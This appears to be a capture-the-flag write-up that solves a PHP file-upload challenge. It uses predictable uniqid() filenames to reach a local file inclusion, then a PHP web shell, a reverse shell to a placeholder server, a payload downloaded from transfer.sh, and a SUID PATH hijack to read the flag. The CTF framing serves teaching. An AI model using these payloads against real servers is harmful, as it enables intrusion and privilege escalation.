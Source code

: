 # filestore
For this challenge we are given the following source code
```php
<?php
    if($_SERVER['REQUEST_METHOD'] == "POST"){
        if ($_FILES["f"]["size"] > 1000) {
            echo "file too large";
            return;
        }
    
        $i = uniqid();

        if (empty($_FILES["f"])){
            return;
        }

        if (move_uploaded_file($_FILES["f"]["tmp_name"], "./uploads/" . $i . "_" . hash('sha256', $_FILES["f"]["name"]) . "_" . $_FILES["f"]["name"])){
            echo "upload success";
        } else {
            echo "upload error";
        }
    } else {
        if (isset($_GET["f"])) {
            include "./uploads/" . $_GET["f"];
        }

        highlight_file("index.php");

        // this doesn't work, so I'm commenting it out 😛
        // system("/list_uploads");
    }
?>
```

From reading this we see we can get file inclusion if we know the filename of the file we uploaded.
The problem is that `uniqid()` is put into the filename but uniqid is not a secure source of randomness, it is based on the time in microseconds.
There is more methods to sync your server clock with the target to reduce the number of requests required:
[![Telling The Time by Chris Anley](https://img.youtube.com/vi/WiGif0D3fIc/default.jpg)](https://www.youtube.com/watch?v=WiGif0D3fIc)
But since I'm lazy I took the quicker path and just take the uniqid before I upload the file and after and then bruteforce that range:

```php
<?php
$cfile = curl_file_create('shell.php');
$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, "https://filestore.web.actf.co/");
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_HEADER, true);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_POST, true); // enable posting
curl_setopt($curl, CURLOPT_POSTFIELDS, array('f' => $cfile)); // post images

$a = uniqid();
$resp = curl_exec($curl);
$b = uniqid();
curl_close($curl);

echo PHP_EOL.$a.PHP_EOL.$b.PHP_EOL;
echo hexdec($b)-hexdec($a);
echo PHP_EOL.$resp;
```
This script uploads our `shell.php` (`<?php echo system($_GET['x']);`) and gets a range of uniqids it could be in and prints the size of that range.
To get a closer range you can rerun the script a few times and use whichever range is smallest (the second time benefits from DNS caching etc).

I used python to make the wordlist
```python
start = int('64445b33c39fb',16)
end = int('64445b34bfe93',16)
for i in range(end,start,-1):
	print(hex(i)[2:])
```
We generate the list backwards as we expect the uniqid to be closer the end time than the start.

And then [ffuf](https://github.com/ffuf/ffuf) to bruteforce it
```sh
ffuf -u 'https://filestore.web.actf.co/?f=FUZZ_92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64_shell.php' -w wl.txt -fs 5499
```
-fs 5499 filters out results with that page size, the page has an error message for file not found so page size will be different when we get the right id.
Eventually we get the id for the file after ~200k requests and can include it:
```
https://filestore.web.actf.co/?x=ls -lah&f=64445b34a19e1_92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64_shell.php
```
So we set up a backconnect
```
https://filestore.web.actf.co/?x=php%20-r%20%27%24sock%3Dfsockopen(%22MYSERVERIP%22%2CMYSERVERPORT)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27&f=64445b34a19e1_92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64_shell.php

php -r '$sock=fsockopen("MYSERVERIP",MYSERVERPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Next we need to escalate privleges to read the flag.txt.
There's two binaries: make_abyss_entry and list_uploads
Running make_abyss_entry creates a folder in /abyss/ so we can write files without other players from the CTF reading or interfering with them
`list_uploads` is where our SUID bug is.
```c
void main(void)
{
	__gid_t __rgid;

	setbuf((FILE *)_IO_2_1_stdout_,(char *)0x0);
	setbuf((FILE *)_IO_2_1_stdin_,(char *)0x0);
	__rgid = getegid();
	setresgid(__rgid,__rgid,__rgid);
	system('ls /var/www/html/uploads');
	return;
}
```
The mistake with this code is that the full path for `ls` is not specified in the `system()` call. This is a security issue for programs with SUID because it means that it will rely on the $PATH variable to determine where the `ls` binary is and will run it with elevated privleges.
On this server chmod has been removed so to get around this we can create our `ls` file on our machine, set the execute bit and tar it:
```sh
$ cat ls
#!/bin/sh
sh
$ chmod +x ls
$ tar -cf lol.tar ls
$ curl -T lol.tar https://transfer.sh
https://transfer.sh/aMggoj/lol.tar
$ nc -lvp 4000
```

Then on the target system:
```sh
$ ./make_abyss_entry
chown fail: Operation not permitted
cea16835c06f2f4e529f553904bde9eb7b114a1465f77e1c1121b5c948f1f209
$ cd /abyss/cea16835c06f2f4e529f553904bde9eb7b114a1465f77e1c1121b5c948f1f209
$ curl https://transfer.sh/aMggoj/lol.tar -o lol.tar
$ tar -xf lol.tar
$ cd /
$ PATH=/abyss/cea16835c06f2f4e529f553904bde9eb7b114a1465f77e1c1121b5c948f1f209/:$PATH ./list_uploads
id
uid=998(ctf) gid=999(admin) groups=999(admin)
cat flag.txt
actf{w4tch_y0ur_p4th_724248b559281824}
```
